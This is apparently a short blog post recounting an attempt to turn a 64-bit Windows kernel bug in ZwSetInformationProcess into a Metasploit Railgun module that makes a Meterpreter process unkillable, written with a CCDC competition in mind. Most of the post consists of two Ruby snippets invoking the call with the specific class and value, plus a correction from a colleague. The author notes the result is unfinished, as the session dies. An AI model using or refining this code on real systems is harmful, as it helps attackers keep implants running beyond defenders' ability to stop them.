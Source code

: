 = "Unkillable Processes"
:hp-tags: railgun, x64, incomplete

Saw this post about a kernel bug in 64 bit Windows that is a DoS, it can also create an unkillable process:
Blog post: http://waleedassar.blogspot.com/2013/02/kernel-bug-1-processiopriority.html

Figured I'd take a swing at making a module that I could put Meterpreter into an unkillable state. Good times at CCDC could be had.

Started with the C code for the bug: http://pastebin.com/QejGQXib along with the only resource I could find about the actual function: http://processhacker.sourceforge.net/doc/ntfill_8h.html#a6557e0dd024f0e9fa6132eb52d12810a

I came up with this:  

```ruby
client.railgun.add_function('ntdll','ZwSetInformationProcess','DWORD',[
   ["DWORD","ProcessHandle","in"],
   ["DWORD","ProcessInformationClass","in"],
   ["DWORD","ProcessInformation","inout"],
   ["DWORD","ProcessInformationLength","in"],
])
processinfo = 0x8000F129
tproc = client.sys.process.open
tmem = tproc.memory.allocate(4)
tproc.memory.write(tmem,processinfo)
cpidhandle = client.railgun.kernel32.GetCurrentProcess()['return']
client.railgun.ntdll.ZwSetInformationProcess(cpidhandle,0x21,tmem,0x4)
```

ScriptJunkie quickly identified that I was using a DWORD for a Handle and using 4 bits for a 64 bit process (should be 8) as well as the fact that I could use a PDWORD with the ProcessInformation inout parameter instead of writing it to memory myself.


The result:
```ruby
client.railgun.add_function('ntdll','ZwSetInformationProcess','DWORD',[
     ["HANDLE","ProcessHandle","in"],
     ["DWORD","ProcessInformationClass","in"],
     ["PDWORD","ProcessInformation","inout"],
     ["DWORD","ProcessInformationLength","in"],
])
processinfo = 0x8000F129
cpidhandle = client.railgun.kernel32.GetCurrentProcess()['return']
client.railgun.ntdll.ZwSetInformationProcess(cpidhandle,0x21,processinfo,0x4)
```

Which results in a process that you can't kill, but the process is also non-functioning as far as I can tell because the Meterpreter session dies. 


I'm curious if with some tweaking I can get it to act much like the KillMe.exe 
https://code.google.com/p/ollytlscatch/downloads/detail?name=KillMe.exe


Which continues to operate just fine after the modification happens.
